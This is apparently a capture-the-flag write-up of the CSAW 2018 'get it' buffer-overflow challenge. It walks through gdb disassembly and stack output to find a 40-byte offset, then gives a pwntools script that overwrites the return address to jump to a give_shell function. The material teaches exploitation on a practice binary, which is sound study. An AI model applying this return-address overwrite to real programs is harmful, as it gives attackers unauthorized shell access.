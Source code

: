 # csaw18 get it

Buffer overflow challenge from csaw 18 in nightmare

Main goal is to get control over the saved return address on the stack.

Nothing interesting in the main function, except the fact that it uses the `gets` function that we can exploit with a buffer overflow. 

```nasm
gef➤  disas main
Dump of assembler code for function main:
   0x00000000004005c7 <+0>:	push   rbp
   0x00000000004005c8 <+1>:	mov    rbp,rsp
   0x00000000004005cb <+4>:	sub    rsp,0x30
   0x00000000004005cf <+8>:	mov    DWORD PTR [rbp-0x24],edi
   0x00000000004005d2 <+11>:	mov    QWORD PTR [rbp-0x30],rsi
   0x00000000004005d6 <+15>:	mov    edi,0x40068e
   0x00000000004005db <+20>:	call   0x400470 <puts@plt>
   0x00000000004005e0 <+25>:	lea    rax,[rbp-0x20]
   0x00000000004005e4 <+29>:	mov    rdi,rax
   0x00000000004005e7 <+32>:	mov    eax,0x0
   0x00000000004005ec <+37>:	call   0x4004a0 <gets@plt>
   0x00000000004005f1 <+42>:	mov    eax,0x0
   0x00000000004005f6 <+47>:	leave
   0x00000000004005f7 <+48>:	ret
End of assembler dump.
```

Let’s see all the functions the program has:

```nasm
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x0000000000400438  _init
0x0000000000400470  puts@plt
0x0000000000400480  system@plt
0x0000000000400490  __libc_start_main@plt
0x00000000004004a0  gets@plt
0x00000000004004b0  __gmon_start__@plt
0x00000000004004c0  _start
0x00000000004004f0  deregister_tm_clones
0x0000000000400530  register_tm_clones
0x0000000000400570  __do_global_dtors_aux
0x0000000000400590  frame_dummy
0x00000000004005b6  give_shell
0x00000000004005c7  main
0x0000000000400600  __libc_csu_init
0x0000000000400670  __libc_csu_fini
0x0000000000400674  _fini
```

Now we see our target : `give_shell` at the address `0x00000000004005b6`

```nasm
gef➤  disas give_shell
Dump of assembler code for function give_shell:
   0x00000000004005b6 <+0>:	push   rbp
   0x00000000004005b7 <+1>:	mov    rbp,rsp
   0x00000000004005ba <+4>:	mov    edi,0x400684
   0x00000000004005bf <+9>:	call   0x400480 <system@plt>
   0x00000000004005c4 <+14>:	nop
   0x00000000004005c5 <+15>:	pop    rbp
   0x00000000004005c6 <+16>:	ret
```

As expected, this function gives the attacker access to a shell in order to `cat` the `flag`. 

Now let’s run our program in gdb with a breakpoint right after the input (address `0x4005f1`) to inspect the stack behavior: 

Here’s how the stack looks with the input “AAAAAAAAAA” : 

```nasm
────────────────────────────── stack ────────────────────────────
0x00007fffffffe290│+0x0000: 0x00007fffffffe3d8  →  0x00007fffffffe64a  ← $rsp
0x00007fffffffe298│+0x0008: 0x0000000100000000
0x00007fffffffe2a0│+0x0010: "AAAAAAAAAA"	 ← $rax
0x00007fffffffe2a8│+0x0018: 0x0000000000004141 ("AA"?)
0x00007fffffffe2b0│+0x0020: 0x0000000000000000
0x00007fffffffe2b8│+0x0028: 0x0000000000000000
0x00007fffffffe2c0│+0x0030: 0x0000000000000001	 ← $rbp
0x00007fffffffe2c8│+0x0038: 0x00007ffff7db5d90  →  <__libc_start_call_main+128> mov edi, eax
```

As we can see, it’s loaded at the address `0x7fffffffe2a0`, pointed by the `rax` register. Our target is the address `0x7fffffffe2c8`, at $rbp+0x8. 

The offset between our two addresses is easily calculated : `0x38-0x10 = 0x28`, so `40` in decimal. 

Now we have everything we need to know in order to write our script, that will look like this : 

```python
from pwn import *

target = process("./get_it")

payload = b""
payload += b"0"*0x28
payload += p64(0x4005b6)

target.sendline(payload)

target.interactive()
```
